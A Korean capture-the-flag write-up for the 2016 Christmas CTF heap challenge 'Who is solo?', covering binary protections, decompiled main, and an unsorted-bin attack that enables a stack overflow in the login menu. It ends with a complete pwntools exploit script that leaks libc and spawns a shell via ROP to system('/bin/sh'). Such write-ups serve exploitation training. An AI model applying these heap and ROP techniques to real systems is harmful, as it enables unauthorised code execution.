 ```yaml
---
title: "2016 Christmas CTF Who is solo?"
date: 2020-1-19
ctf: Christmas CTF
layout: post
---
```


64비트 바이너리고 Partial RELRO, NX, FORTIFY가 걸려있다.

```
[*] '/vagrant/ctfs/solo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

메뉴는 5가지고 전형적인 힙 문제의 메뉴다. 

```
1. malloc
2. free
3. list
4. login
5. exit
```

함수들은 아래와 같은 기능들을 한다.

```
sub_4008D0 : print menu
sub_400930 : malloc only 4 chunks
sub_400B60 : free chunk
```

메인함수다.

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int v4; // [rsp+Ch] [rbp-42Ch]
  void *buf; // [rsp+10h] [rbp-428h]
  char v6; // [rsp+18h] [rbp-420h]
  char v7; // [rsp+20h] [rbp-418h]
  char v8; // [rsp+28h] [rbp-410h]
  char v9; // [rsp+30h] [rbp-408h]

  setvbuf(stdout, 0LL, 2, 0x400uLL);
  sub_4008B0();
  v4 = 0;
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        do
        {
          sub_4008D0();
          __isoc99_scanf("%d", &v4);
        }
        while ( v4 == 3 );
        if ( v4 > 3 )
          break;
        if ( v4 == 1 )
        {
          sub_400930(&buf, &v6, &v7, &v8);      // 1. malloc
        }
        else
        {
          if ( v4 != 2 )
            return 0LL;
          sub_400B60(&buf, &v6, &v7, &v8);      // 2. free
        }
      }
      if ( v4 != 4 )
        break;
      if ( qword_602080 )                       // 4. login
      {
        __printf_chk(1LL, "Input password: ");
        read(0, &v9, 2000uLL);                  // vuln
      }
      else
      {
        puts("Login failed");
      }
    }
    if ( v4 != 0x31337 )
      break;
    __printf_chk(1LL, "Modify Data: ");
    read(0, buf, 300uLL);
  }
  return 0LL;
}
```

unsorted bin 취약점을 이용한 문제다. 

malloc(1,200,'AAAA'), malloc(2,200,'BBBB'), malloc(3,200,'CCCC') 할당

free(2) 해주면 fd,bk에는 main_arena+88주소가 적힌다. 

modify메뉴로 free된 2번 청크의 bk를 check해주는 (전역변수-16)로 덮어 fd,bk 조작해 원하는 주소에 값을 씀

전역변수 -16 해주는 이유는 unlink때 `FD->bk=BK; BK->fd=FD;`로 현재 chunk bk + 16위치에 현재 fd값이 들어가기 때문에 덮어쓸 주소 -16해준다. bk에 check -16을 넣어주면 unlink과정에서 check+0에 fd가 들어간다.

malloc(4,200,'DDDD) 할당

그러면 0으로 덮여있던 check는 main_arena + 88의 주소가 들어가있다.

Login 메뉴를 사용가능하다. 취약점 터지는 `read(0, &v9, 2000uLL);` 에서 rop해주면 됨.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
#context.log_level = 'debug'
e = ELF('./solo')
p = process('./solo')
libc = e.libc
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
prdi = 0x00000000004008a0 # pop rdi ; ret
prsi_r15 = 0x0000000000400d11 # pop rsi ; pop r15 ; ret
check = 0x0000000000602080
main = 0x0000000000400680

# chunk max : 3
def malloc(num,size,data):
	sla('$','1')
	sla(':',str(num)) # Allocate Chunk Number:
	sla(':',str(size)) # Input Size:
	sa(':',data) # Input Data:

def free(num):
	sla('$','2')
	sla(':',str(num)) # Free Chunk number:

def modify(data):
	sla('$','201527')
	sa(':',data) # Modify Data:

def login(pay):
	sla('$','4')
	sla(':',pay) # Input password: 

def exit():
	sla('$','5')

# malloc -> num 1,2,3
malloc(1,200,'AAAAAAAA')
malloc(2,200,'BBBBBBBB')
malloc(3,200,'CCCCCCCC')
# free -> num 2
free(2)
#raw_input()
# modify -> num 2 -> bk(check - 16)
p1 = 'A'*200
p1 += p64(0xd1) # size
p1 += p64(0x0) # fd
p1 += p64(check - 0x10) # bk
modify(p1)
# malloc -> num 4
malloc(4,200,'DDDDDDDD')
p2 = 'A'*0x408
p2 += p64(prdi) + p64(check) + p64(e.plt['puts'])
p2 += p64(main)
login(p2) # leak main_arena + 88
exit()
libc_base = u64(p.recvuntil('\x7f')[-6:] + '\x00\x00') - 88 - 0x3c4b20
log.info('libc_base : ' + hex(libc_base))
# system('/bin/sh')
p3 = 'A'*0x408
p3 += p64(prdi) + p64(libc_base + libc.search('/bin/sh\x00').next()) + p64(libc_base + libc.symbols['system'])
login(p3)
exit()

p.interactive()
```

